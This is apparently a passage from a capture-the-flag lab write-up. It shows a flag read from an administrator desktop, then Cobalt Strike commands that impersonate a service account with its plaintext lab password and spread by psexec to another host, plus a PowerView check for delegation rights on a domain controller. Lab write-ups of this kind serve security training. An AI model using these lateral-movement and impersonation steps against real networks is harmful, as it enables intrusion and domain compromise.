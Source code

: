 
# Headed down another path
```powershell
c:\Users\administrator\Desktop> dir                                                                                                                                                                         
 Volume in drive C has no label.                                                                                                                                                                            
 Volume Serial Number is A39E-D5A7                                                                                                                                                                          

 Directory of c:\Users\administrator\Desktop                                                                                                                                                                

04/29/2018  02:22 AM    <DIR>          .                                                                                                                                                                    
04/29/2018  02:22 AM    <DIR>          ..                                                                                                                                                                   
04/29/2018  02:23 AM                36 flag.txt                                                                                                                                                             
               1 File(s)             36 bytes                                                                                                                                                               
               2 Dir(s)  18,295,459,840 bytes free                                                                                                                                                          
 
c:\Users\administrator\Desktop> type flag.txt                                                                                                                                                               
OFFSHORE{ACL_@bus3_0ft3n_ov3rl00k3d} 
```

once the flag was grabbed I attempted to get a cobaltstrike beacon on `ws03` by impersonating `corp.local\svc_devops` and `psexec'ing`
```powershell
[01/09 20:36:04] beacon> make_token CORP.local\svc_devops bugsy_P4ss
[01/09 20:36:04] [*] Tasked beacon to create a token for CORP.local\svc_devops
[01/09 20:36:08] [+] host called home, sent: 179 bytes
[01/09 20:36:11] [+] Impersonated CORP.local\svc_devops (netonly)
[01/09 20:37:00] beacon> jump psexec64 ws03.DEV.ADMIN.OFFSHORE.COM smb
[01/09 20:37:00] [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-133712212312312312) on ws03.DEV.ADMIN.OFFSHORE.COM via Service Control Manager (\\ws03.DEV.ADMIN.OFFSHORE.COM\ADMIN$\2b795a9.exe)
[01/09 20:37:03] [+] host called home, sent: 360869 bytes
[01/09 20:37:24] [+] received output:
Started service 2b795a9 on ws03.DEV.ADMIN.OFFSHORE.COM
[01/09 20:37:24] [+] established link to child beacon: 172.16.2.102
```
ran `powershell Get-NetComputer DC02 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity` after uploading powerview.ps1
and found dc02 has `  msds-allowedtoactonbehalfofotheridentity    `
